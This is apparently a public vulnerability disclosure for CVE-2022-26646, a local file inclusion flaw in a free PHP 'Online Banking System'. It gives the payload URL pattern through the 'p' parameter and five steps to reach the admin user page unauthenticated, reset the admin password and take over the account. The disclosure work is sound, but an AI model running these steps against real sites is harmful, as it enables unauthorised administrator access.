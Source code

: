 # Tittle: Online Banking System LFI.

## Author: (Erik451)
### CVE: [CVE-2022-26646](https://cve.reconshell.com/cve/CVE-2022-26646)
#### **Vendor Homepage**: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
#### **Software Link**: [Online Banking System](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
#### Version: OBS 1.0

**Description**: The parameter "p" and "page" includes files. An unauthenticated user can read internal php files of the web. LFI to Privilege Escalation
-   Null session account to admin
-   Payload used: `http://web.com/banking/?p=<any_phpfile>`

---

### **Steps to reproduce:**

- 1- Go to home page [http://localhost/banking/?p=about](http://localhost/banking/?p=about)

![nullsession](https://user-images.githubusercontent.com/47476901/160772671-238ab371-036f-4763-aac5-f2d59aca42ad.png)

- 2- Load the admin user page [http://localhost/banking/?p=admin/user/index](http://localhost/banking/?p=admin/user/index)

![adminpage](https://user-images.githubusercontent.com/47476901/160772705-978e6fc1-a2b5-439a-85f2-cd2959267bf4.png)


- 3- Change the admin password

![changepass](https://user-images.githubusercontent.com/47476901/160647853-084108de-0592-4c79-8d3a-f7a1d3692466.png)

- 4- Login as administrator

![login](https://user-images.githubusercontent.com/47476901/160647880-c00a310c-ca03-4fef-839f-0131122ee50d.png)


- 5- Admin panel

![adminpanel](https://user-images.githubusercontent.com/47476901/160647820-d55df39c-9287-4bd5-8214-e10558e8aa09.png)


#### Other Payload:
Reading info.php

![infophp](https://user-images.githubusercontent.com/47476901/160773672-89489f95-973e-490c-b331-a36128103ef0.PNG)
